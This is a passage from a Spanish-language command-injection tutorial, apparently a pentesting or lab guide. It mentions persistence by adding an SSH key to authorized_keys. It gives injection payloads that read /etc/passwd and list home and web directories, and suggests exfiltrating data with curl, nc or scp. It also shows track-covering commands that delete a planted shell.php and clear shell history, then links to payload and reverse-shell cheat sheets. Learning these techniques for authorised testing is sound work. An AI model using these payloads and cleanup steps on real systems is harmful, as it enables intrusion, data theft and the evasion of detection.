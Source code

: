 O añadir tu clave pública a ~/.ssh/authorized_keys si tienes acceso.

## 📤 4. Exfiltración de datos

Busca archivos sensibles:

```bash
127.0.0.1; cat /etc/passwd
127.0.0.1; ls -la /home/
127.0.0.1; find /var/www -type f
```

Sube los datos a tu máquina con curl, nc, o incluso scp si tienes SSH.

## 🧠 5. Limpieza y huellas

Antes de terminar, considera limpiar tus rastros:

```bash
127.0.0.1; rm /var/www/html/shell.php
127.0.0.1; history -c
```

## 📚 Recursos para seguir aprendiendo

- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [GTFOBins](https://gtfobins.github.io/) - Para escalada de privilegios
- [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
